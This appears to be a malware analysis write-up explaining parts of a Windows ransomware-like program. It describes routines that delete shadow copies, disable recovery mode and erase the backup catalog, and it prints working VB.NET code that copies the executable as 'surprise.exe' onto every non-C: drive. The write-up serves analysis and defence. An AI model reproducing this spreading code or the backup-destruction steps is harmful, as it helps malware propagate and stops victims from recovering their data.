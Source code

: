This code executes system commands that affect data backup and recovery on Windows, but only under certain conditions :

1.  **Checking for Administrator Privileges**:
    
    -   The code first checks if the program has administrator privileges (`If Program.checkAdminPrivilage`).
2.  **If Privileges are Confirmed, the Following Actions are Executed**:
    
    -   **Deleting Shadow Copies** (`deleteShadowCopies`): If `Program.checkdeleteShadowCopies` is true, the program executes a command to delete all shadow copies (system backups) using `vssadmin` and `wmic`.
    -   **Disabling Recovery Mode** (`disableRecoveryMode`): If `Program.checkdisableRecoveryMode` is true, the program executes commands to disable Windows' automatic recovery mode using `bcdedit`.
    -   **Deleting Backup Catalog** (`deleteBackupCatalog`): If `Program.checkdeleteBackupCatalog` is true, the program executes a command to delete the Windows backup catalog with `wbadmin`.

#### Importance of This Code

This code is used for disabling or removing key backup and recovery features on a Windows system.

### spreadName

```
Private Shared checkSpread As Boolean = True
Private Shared spreadName As String = "surprise.exe"

If Program.checkSpread Then
	Program.spreadIt(Program.spreadName)
End If

Private Shared Sub spreadIt(spreadName As String)
	For Each driveInfo As DriveInfo In DriveInfo.GetDrives()
		If driveInfo.ToString() <> "C:\" AndAlso Not File.Exists(driveInfo.ToString() + spreadName) Then
			Try
				File.Copy(Assembly.GetExecutingAssembly().Location, driveInfo.ToString() + spreadName)
			Catch
			End Try
		End If
	Next
End Sub
```

This part of code is designed to self-replicate (spread) across different drives of the computer, except for the main drive (C:).

1.  **Check for Spreading**:
    
    -   The code checks if `Program.checkSpread` is true. If so, the method `Program.spreadIt(Program.spreadName)` is called.
2.  **`spreadIt` Method**:
    
    -   Iterates through all available drives on the computer (`DriveInfo.GetDrives()`).
    -   If the drive is not C:\ and a file named `spreadName` (here, "surprise.exe") does not exist on that drive, the current executable file (the application itself) is copied to that drive with the name `spreadName`.
